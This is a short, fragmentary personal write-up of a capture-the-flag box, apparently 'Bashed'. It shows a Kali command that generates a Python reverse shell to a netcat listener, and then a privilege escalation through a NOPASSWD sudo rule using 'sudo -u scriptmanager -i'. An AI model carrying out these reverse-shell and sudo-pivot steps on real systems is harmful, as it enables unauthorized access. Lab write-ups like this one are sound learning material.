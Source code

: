 We can eaasily get foothold on


/dev



from here i used the writeup


but used 


┌──(root💀kali)-[~/Desktop/THM/shellgen]
└─# ./shellgen tun0 4455

to create a python reverse shell to get a shell on my nc listening port

now followed the write up here


as i didnt knew what to do with this

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL



now i learnt 

we can swith the mentioned user to get a interactive bash shell 

www-data@bashed:/tmp$ sudo -u scriptmanager -i
sudo -u scriptmanager -i

with this i logged in as script manager




